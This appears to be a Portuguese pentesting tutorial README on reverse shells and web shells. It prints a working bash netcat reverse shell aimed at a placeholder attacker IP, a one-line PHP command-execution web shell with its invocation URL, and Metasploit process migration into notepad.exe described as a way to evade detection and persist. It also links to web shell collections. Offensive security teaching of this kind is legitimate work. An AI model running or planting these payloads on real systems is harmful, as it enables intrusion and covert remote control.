

# Reverse Shells & Web Shells - Conceitos, Dicas e Exemplos

  

---

## Introdução

Este artigo aborda o uso de **Reverse Shells** e **Web Shells** em um contexto de **testes de segurança ofensiva**. Esses conceitos são essenciais para analistas e pesquisadores de segurança que desejam compreender e testar a exposição de sistemas a ataques remotos.

A imagem que ilustra este README é apenas uma brincadeira sobre como um simples processo (`notepad.exe`) pode se tornar sinistro e no minimo suspeito quando inicia uma conexão reversa para a máquina de um atacante, abrindo caminho para exploração do sistema.

---

## O que é um Reverse Shell?

Um **Reverse Shell** é quando a máquina alvo (vítima) inicia a conexão com o atacante, geralmente enviando um shell interativo para a máquina de ataque. Na prática, isso **burla** diversos cenários onde o firewall do alvo bloqueia conexões de entrada, mas não bloqueia conexões de saída.

 

## Como configurar um Reverse Shell

### 1. Listener (Atacante)

No seu **host de ataque**, abra um **listener** (ouvinte) que aguardará a conexão de entrada. Um exemplo usando **Netcat** na porta 443, mas tu pode usar outras tools, até mesmo o telnet.

`nc -lvnp 443`

- `-l`: Modo “listen” (ouvir conexões).
    
- `-v`: Modo verboso.
    
- `-n`: Não resolver nomes (mais rápido).
    
- `-p 443`: Define a porta para escuta.
    

### 2. Payload (Máquina Vítima)

No alvo, executamos o **payload** que iniciará a conexão reversa para o IP do atacante e porta configurada. Exemplos de payload em **Bash**:

`rm -f /tmp/f mkfifo /tmp/f cat /tmp/f | sh -i 2>&1 | nc IP_ATACANTE PORTA_ATACANTE >/tmp/f`

> Substitua `IP_ATACANTE` e `PORTA_ATACANTE` pelos valores adequados, por exemplo `172.16.52.5` e `443`.

### 3. Conexão recebida (Atacante)

Se tudo ocorrer bem, você verá algo como:

`connect to [172.16.26.6] from (UNKNOWN) [172.16.52.5] 59964`

E terá um shell interativo na máquina alvo.

Lembrando que isso é num cenário local, onde vc esteja no mesmo escopo de rede privado, ou usando VPN, ou atraves de firewall rules que se enxergam. Em casos reais é preciso tomar algumas outras ações como uso do ngrok, port forwarding mas não serão abordadas aqui.

---

## Metasploit e a Migração para Notepad.exe

Em cenários onde a persistência e a invisibilidade são cruciais, o **Metasploit** se destaca com sua capacidade de realizar operações avançadas, uma delas é a **migração de processos**. Inspirados na imagem que brinca com a ideia do `notepad.exe` assumindo uma nova função, podemos usar essa técnica para “disfarçar” um payload.

### Por que Migrar processo?

Migrar um payload para um processo legítimo, como o `notepad.exe`, pode ajudar na:

- **Evasão de Detecção:** O `notepad.exe` é um aplicativo legítimo, o que pode dificultar a identificação de atividades maliciosas.
    
- **Persistência:** Ao integrar o payload a um processo conhecido, o atacante pode manter acesso contínuo ao sistema.
    

### Como Executar a Migração

Após obter acesso com uma sessão do Metasploit, o comando para migrar para o `notepad.exe` é simples:

`meterpreter > migrate <PID_do_notepad.exe>`

> **Nota:** O `<PID_do_notepad.exe>` representa o identificador do processo do notepad.exe no sistema Windows.

Essa técnica transforma o que inicialmente poderia ser uma conexão de shell “aberta” em uma operação mais furtiva, onde o payload passa a ser executado dentro de um processo bem conhecido e muitas vezes desconsiderado pelos mecanismos automáticos de segurança.

Nem sempre o notepad será a melhor opção, mas usamos ele de exemplo só pra mostrar que é possivel, é bom deixar claro também que existem outros processos mais importantes e mais uteis para se camuflar e que também depende do seu sistema operacional.

---

## Ferramentas e Geradores de Reverse Shell

Existem diversas ferramentas e sites que ajudam a gerar **payloads** customizados ou que facilitam o processo de **Reverse Shell**. Alguns exemplos:

- [**revshells.com**](https://revshells.com/): Gera comandos de Reverse Shell em diversas linguagens (Bash, Python, PHP, etc.).
    
- [**PayloadsAllTheThings** (GitHub)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Reverse%20Shell): Vários exemplos de payloads e dicas de bypass.
    
- [**MSFvenom** (Metasploit)](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom): Gera binários, scripts e payloads para uma infinidade de plataformas.
    

---

## Web Shells

**Web Shells** são scripts (normalmente em PHP, ASP, JSP, ou até mesmo em formatos como `.aspx`) implantados em um servidor para fornecer acesso remoto via requisições HTTP/HTTPS. Em um cenário ofensivo, a ideia é fazer upload desse script para o servidor alvo, e então acessá-lo pelo navegador, executando comandos remotamente.

### Exemplo Simples de PHP Web Shell

Um exemplo clássico seria algo como:

`<?php if(isset($_REQUEST['cmd'])){     system($_REQUEST['cmd']); } ?>`

> Por questões de _defesa_, muitos antivírus/EDRs identificam strings específicas. Por isso, é comum ver web shells ofuscados ou empacotados em imagens, como foi feito no exemplo acima, para “enganar” detecções.
> Em alguns casos ainda mais especificos, extensões de navegadores e alguns antivirus nem deixariam você abrir essa página do github por achar que é algo malicioso.

Para acessar o shell, basta navegar até:

`http://www.alvo.com/shell.php?cmd=whoami`

---

### Ferramentas Comuns e Exemplos

Abaixo, alguns Web Shells populares (use apenas para fins educativos e em ambientes autorizados!):

1. **[p0wny-shell](https://github.com/flozz/p0wny-shell)**
    
    - Um PHP web shell minimalista e de arquivo único. Permite execução de comandos num terminal pseudo-interativo.
        
2. **[b374k shell](https://github.com/b374k/b374k)**
    
    - Shell em PHP mais avançado, com recursos de gerenciamento de arquivos, execução de comandos e funcionalidades extras.
        
3. **[c99 shell](https://www.r57shell.net/single.php?id=13)**
    
    - Conhecida e robusta shell em PHP, oferece ampla gama de funções para manipulação de arquivos, execução de comandos e mais.
        

> Você pode encontrar mais web shells em:  
> **[https://www.r57shell.net/index.php](https://www.r57shell.net/index.php)**

---

## Referências

- [**OWASP** – Top 10 e guias de segurança](https://owasp.org/)
    
- **HackTricks** – Wiki de pentesting e dicas avançadas
    
- [**TryHackMe** – Plataformas de aprendizagem com laboratórios práticos](https://tryhackme.com/)
    
- [**Offensive Security** – Cursos e certificações (OSCP, etc.)](https://www.offensive-security.com/)
    
- **GTFOBins** – Ferramentas e binários que podem ser explorados
    

---

## Disclaimer

Este material destina-se exclusivamente a fins educativos e em testes de intrusão **autorizados**. Qualquer uso ilegal ou não autorizado das técnicas apresentadas é de responsabilidade do indivíduo. Mantenha a ética em primeiro lugar e respeite as leis e políticas de privacidade e nunca se esuqeça, conhecimento não é crime.

---

> **Nota**: Sempre lembre-se de que a segurança ofensiva exige não apenas conhecimento técnico, mas também responsabilidade e **autorização** para realizar testes.  
> **Boa leitura e bons estudos!**

>Linkedin: www.linkedin.com/in/pgw-script | Paulo Werneck
